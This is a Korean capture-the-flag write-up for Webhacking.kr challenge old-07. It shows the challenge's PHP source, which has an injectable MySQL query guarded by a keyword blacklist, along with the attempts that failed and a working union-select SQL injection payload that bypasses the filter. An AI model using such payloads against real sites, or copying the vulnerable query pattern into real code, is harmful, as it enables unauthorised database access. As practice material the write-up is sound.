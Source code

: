 ```yaml
---
title: ["[Webhacking.kr] old-07"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, sqli, mysql]
---
```

## Intro
```php
<?php
$go=$_GET['val'];
if(!$go) { echo("<meta http-equiv=refresh content=0;url=index.php?val=1>"); }
echo("<html><head><title>admin page</title></head><body bgcolor='black'><font size=2 color=gray><b><h3>Admin page</h3></b><p>");
if(preg_match("/2|-|\+|from|_|=|\\s|\*|\//i",$go)) exit("Access Denied!");
$db = dbconnect();
$rand=rand(1,5);
if($rand==1){
  $result=mysqli_query($db,"select lv from chall7 where lv=($go)") or die("nice try!");
}
if($rand==2){
  $result=mysqli_query($db,"select lv from chall7 where lv=(($go))") or die("nice try!");
}
if($rand==3){
  $result=mysqli_query($db,"select lv from chall7 where lv=((($go)))") or die("nice try!");
}
if($rand==4){
  $result=mysqli_query($db,"select lv from chall7 where lv=(((($go))))") or die("nice try!");
}
if($rand==5){
  $result=mysqli_query($db,"select lv from chall7 where lv=((((($go)))))") or die("nice try!");
}
$data=mysqli_fetch_array($result);
if(!$data[0]) { echo("query error"); exit(); }
if($data[0]==1){
  echo("<input type=button style=border:0;bgcolor='gray' value='auth' onclick=\"alert('Access_Denied!')\"><p>");
}
elseif($data[0]==2){
  echo("<input type=button style=border:0;bgcolor='gray' value='auth' onclick=\"alert('Hello admin')\"><p>");
  solve(7);
}
?>
```

쿼리의 result값 중 첫번째 값이 `2`이면 풀리는 문제다.  
중간에 randomization으로 sqli 방어를 시도했지만, 타겟으로 한 쿼리가 나올 때까지 요청을 보내면 된다.  

## Analysis

```sql
select lv from chall7 where lv=($go)
```

`2`, `-`, `+`, `from`, `_`, `=`, `\s`, `*`, `/` 는 사용할 수 없다.  

입력값을 `1^3`을 준다면 쿼리가 아래와 같이 완성된다.  
```sql
select lv from chall7 where lv=(1^3)
```  
`1 XOR 3`은 `2`이므로, 쉽게 결과가 나올 것이라고 생각했는데
`query error`라는 응답이 왔다.  
`query error`는 쿼리의 결과가 없을 때 발생한다.  
혹시 `^`가 필터링 되거나 문자열로 인식이 되나 싶어서 다른 입력값을 생각해보았다.  

입력값을 `0)or(lv>1`을 준다면 쿼리가 아래와 같이 완성된다.  
```sql
select lv from chall7 where lv=(0)or(lv>1)
```  
하지만 마찬가지로 `query error`라는 응답이 왔다.  

즉, 테이블에 `lv`이 `1`인 데이터 외에는 없다고 판단할 수 있다.

## Payload

union select문을 사용해서 결과에 2를 넣을 수 있다.  
```
/challenge/web-07/index.php?val=0)union(select(1^3)
```

쿼리는 아래와 같이 완성된다.  

```sql
select lv from chall7 where lv=0)union(select(1^3))
```